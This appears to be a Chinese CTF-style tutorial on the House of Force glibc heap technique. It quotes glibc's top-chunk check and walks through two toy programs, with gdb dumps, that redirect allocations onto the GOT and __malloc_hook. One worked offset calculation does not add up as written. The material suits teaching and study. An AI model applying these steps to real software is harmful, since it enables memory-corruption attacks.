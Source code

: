 # House Of Force

## 介绍
House Of Force属于House Of XXX系列，House Of XXX指的是2004年一篇名为《The Malloc Maleficarum-Glibc Malloc Exploitation Techniques》的文章中提出的一系列针对glibc漏洞的利用方法。<br>
但是由于年代久远《The Malloc Maleficarum》中提出的大多数利用在今天都不能奏效，我们现在所指的House Of XXX利用相比2004年文章中写的已有较大的不同。但是《The Malloc Maleficarum》依然是一篇推荐阅读的文章，你可以在这里读到它的原文：
https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt

## 原理
House Of Force是一种堆溢出的利用方法，当然能够通过House Of Force进行利用的可能不只是堆溢出漏洞。如果一个堆(heap based)漏洞想要通过House Of Force方法进行利用，需要以下条件：

* 1.用户能够以溢出等方式控制到top chunk的size域
* 2.用户能够自由的控制堆分配尺寸的大小

House Of Force产生的原因在于glibc对top chunk的处理，根据前面堆数据结构部分的知识我们得知，进行堆分配时会从top chunk中分割出相应的大小作为堆块的空间，因此top chunk的位置会发生上下浮动以适应堆内存分配和释放。

HOF的利用思想可以概括为一句话：
当使用top chunk分配堆块的size值是由用户控制的任意值时会发生什么？<br>
答案是，可以使得top chunk移动到我们想要达到的任何位置，这就相当于一次任意地址写。
<br>
然而在glibc中，会对用户请求的大小和top chunk现有的size进行验证
```
// 获取当前的top chunk，并计算其对应的大小
victim = av->top;
size   = chunksize(victim);
// 如果在分割之后，其大小仍然满足chunk的最小大小，那么就可以直接进行分割。
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
{
    remainder_size = size - nb;
    remainder      = chunk_at_offset(victim, nb);
    av->top        = remainder;
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head(remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk(av, victim, nb);
    void *p = chunk2mem(victim);
    alloc_perturb(p, bytes);
    return p;
}
```
然而，如果可以篡改size的大小为一个很大值，就可以轻松的通过这个验证，这也就是我们前面说的需要一个能够控制top chunk size域的漏洞。

```
(unsigned long) (size) >= (unsigned long) (nb + MINSIZE)
```
一般的做法是把top chunk的size改为-1，因为在进行比较时会把size转换成无符号数(如上)，因此-1会解释成为一个大数，就可以使得所有64位值都能通过验证。

```
remainder      = chunk_at_offset(victim, nb);
av->top        = remainder;

/* Treat space at ptr + offset as a chunk */
##define chunk_at_offset(p, s) ((mchunkptr)(((char *) (p)) + (s)))
```
之后这里会把top指针更新，接下来的堆块就会分配到这个位置，用户只要控制了这个指针就相当于实现任意地址写任意址(write-anything-anywhere)



## 简单示例
在学习完HOF的原理之后，我们这里通过一个示例来说明HOF的利用
这个例子的目标是通过HOF来篡改`malloc@got.plt`实现劫持程序流程

```
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
    malloc(-4120);  // <=== 减小top chunk指针
    malloc(0x10);   // <=== 分配块实现任意地址写
}
```

首先，我们分配一个0x10字节大小的块

```
0x602000:	0x0000000000000000	0x0000000000000021 <=== ptr
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 <=== top chunk
0x602030:	0x0000000000000000	0x0000000000000000
```
之后把top chunk的size改为0xffffffffffffffff，在题目中这一步可以通过堆溢出等漏洞来实现。
因为-1在补码中是以0xffffffffffffffff表示的，所以我们直接赋值-1就可以。

```
0x602000:	0x0000000000000000	0x0000000000000021 <=== ptr
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0xffffffffffffffff <=== top chunk size域被更改
0x602030:	0x0000000000000000	0x0000000000000000
```
注意此时的top chunk位置，当我们进行下一次分配的时候就会更改top chunk的位置到我们想要的地方

```
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x0000000000602020 <=== top chunk此时一切正常
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
接下来我们执行`malloc(-4120);`，-4120是怎么得出的呢？
首先明确要写入的目的地址，这里我编译的情况0x601020是`malloc@got.plt`的地址

```
0x601020:	0x00007ffff7a91130 <=== malloc@got.plt
```
之后明确当前top chunk的地址，根据前面描述，top chunk位于0x602020<br>
所以我们使用0x601020-0x602020-0x10=-4120,之所以要减去0x10是为了刨除chunk header的偏移
当调用`malloc(-4120)`之后，我们可以观察到top chunk被抬高到我们想要的位置

```
0x7ffff7dd1b20 <main_arena>:\	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x0000000000601010 <=== 可以观察到top chunk被抬高
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
之后，我们分配的块就会出现在0x601010+0x10的位置，也就是0x601020可以更改got表中的内容了。

## 简单示例2
在上一个示例中我们演示了通过HOF使得top chunk的指针减小来修改位于其上面(低地址)的got表中的内容，
但是HOF其实也可以使得top chunk指针增大来修改位于高地址空间的内容，我们通过这个示例来演示这一点

```
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;                 <=== 修改top chunk size
    malloc(140737345551056); <=== 增大top chunk指针
    malloc(0x10);
}
```
我们可以看到程序代码与简单示例1基本相同，除了第二次malloc的size有所不同。<br>
这次我们的目标是malloc_hook，我们知道malloc_hook是位于libc.so里的全局变量值，首先查看内存布局

```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/桌面/tst/t1
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/桌面/tst/t1
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/桌面/tst/t1
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 
0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 
0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```
可以看到heap的基址在0x602000，而libc的基址在0x7ffff7a0d000，因此我们需要通过HOF扩大top chunk指针的值来实现对malloc_hook的写。
<br>
首先由调试得知__malloc_hook的地址位于0x7ffff7dd1b10，采取计算0x7ffff7dd1b00-0x602020-0x10=140737345551056
经过这次malloc之后，我们可以观察到top chunk的地址被抬高到了0x00007ffff7dd1b00

```
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x00007ffff7dd1b00 <=== top chunk
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
之后，我们只要再次分配就可以控制0x7ffff7dd1b10处的__malloc_hook值了

```
rax = 0x00007ffff7dd1b10
    
0x400562 <main+60>        mov    edi, 0x10
0x400567 <main+65>        call   0x400410 <malloc@plt>
```

## 小总结
在这一节中讲解了House Of Force的原理并且给出了两个利用的简单示例，通过观察这两个简单示例我们会发现其实HOF的利用要求还是相当苛刻的。

* 首先，需要存在漏洞使得用户能够控制top chunk的size域。
* 其次，需要用户能自由控制malloc的分配大小
* 第三，分配的次数不能受限制

其实这三点中第二点往往是最难办的，CTF题目中往往会给用户分配堆块的大小限制最小和最大值使得不能通过HOF的方法进行利用。



